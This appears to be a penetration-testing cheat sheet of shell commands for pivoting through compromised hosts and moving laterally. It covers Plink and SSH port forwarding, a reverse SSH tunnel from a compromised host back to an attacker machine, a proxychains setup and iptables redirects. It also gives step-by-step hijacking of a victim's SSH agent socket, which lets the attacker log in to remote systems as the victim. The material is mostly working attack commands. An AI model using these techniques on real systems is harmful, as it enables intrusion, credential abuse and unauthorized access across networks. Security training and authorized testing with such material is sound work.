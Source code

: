 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port:127.0.0.1:$victim_port```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

#### IPTables ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

### <--- Lateral Movement ---> ###

#### SSH Hijack: Abusing SSH Agents to intercept the "SSO Like Token"  ####

**NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/**

##### Check logins #####

```w```

```cd /var/logs```

```grep -R -i root . -a```

```cd /etc/ssh```

```nano ssh_config```

**Is 'ForwardAgent == yes'?**

```cd /tmp```

*NOTE: Remove existing ssh-* files from grepping to remove active sessions*

```watch -n 1 "ls | grep -v 'ssh-$?\|ssh-$?'"```

*NOTE:  Wait for new event to appear*

```cd ssh-new-event```

```ls```

```SSH_AUTH_SOCK=agent-$? ssh root@target -p 2222```

*NOTE: Try without port two. This example is copied from Ippsec.*

#### SSH Hijack 2 ####

*NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/*

##### Attacker finds the SSHd process of the victim #####

```ps uax|grep sshd```
 
##### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables #####

```grep SSH_AUTH_SOCK /proc/<pid>/environ```
 
##### Attacker hijack's victim's ssh-agent socket #####

```SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l```
 
##### Attacker can login to remote systems as the victim #####

```ssh remote_system -l victim```
